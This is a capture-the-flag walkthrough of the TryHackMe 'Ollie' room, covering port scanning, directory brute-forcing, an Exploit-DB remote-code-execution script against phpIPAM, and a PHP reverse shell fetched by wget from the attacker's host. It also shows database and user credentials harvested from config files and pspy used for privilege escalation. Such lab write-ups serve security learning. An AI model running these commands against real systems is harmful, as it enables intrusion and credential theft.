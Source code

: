 # Ollie

**Room Link:** [https://tryhackme.com/room/ollie](https://tryhackme.com/room/ollie)

## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## TCP/1337 - waste

**Kali**

```
nc -v $VICTIM 1337
```



<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





## TCP/80 - HTTP

**Browser**

```
Username: admin
Password: OllieUnixMontgomery!
```



<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Exploit:** [https://www.exploit-db.com/raw/50963](https://www.exploit-db.com/raw/50963)



**Kali**

```
python3 exploit.py  -usr admin -pwd OllieUnixMontgomery! -cmd 'whoami' -url http://$VICTIM
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



We can run commands from the browser as well.

<figure><img src="../../.gitbook/assets/image (633).png" alt=""><figcaption></figcaption></figure>

Got this php reverse shell, just changed the IP

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell
cd php-reverse-shell
subl php-reverse-shell.php 
python2 -m SimpleHTTPServer 81
```

**Kali**

```
nc -lvnp 1234
```

We have access to write to the immaolllieeboyyy directory so we put our shell there.

**Browser**

```
wget http://$KALI:81/php-reverse-shell.php -O immaolllieeboyyy/test.php
```

**Browser**

<pre><code><strong>http://VICTIM:/immaolllieeboyyy/test.php
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (635).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (636).png" alt=""><figcaption></figcaption></figure>



Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

**Victim**

```
cd /var/www/html
grep -ir "pass" config.php -A4 -B4
```

<figure><img src="../../.gitbook/assets/image (637).png" alt=""><figcaption></figcaption></figure>

We can login to mysql but didn't find anything

**Victim**

```
mysql -uphpipam_ollie -pIamDah1337estHackerDog!
```



**Victim**

```
su ollie
Password: OllieUnixMontgomery!
```

<figure><img src="../../.gitbook/assets/image (638).png" alt=""><figcaption></figcaption></figure>

## PSPY

**Kali**

```
wget http://$KALI:81/pspy32 
chmod +x pspy32 
./pspy32 
```

**Victim**

```
cd /tmp/
wget http://10.10.231.159:81/pspy32 
chmod +x pspy32 
./pspy32
find / -name "feedme" 2>/dev/null 
```

<figure><img src="../../.gitbook/assets/image (640).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

<figure><img src="../../.gitbook/assets/image (641).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (642).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp 1338
```

<figure><img src="../../.gitbook/assets/image (643).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (644).png" alt=""><figcaption></figcaption></figure>













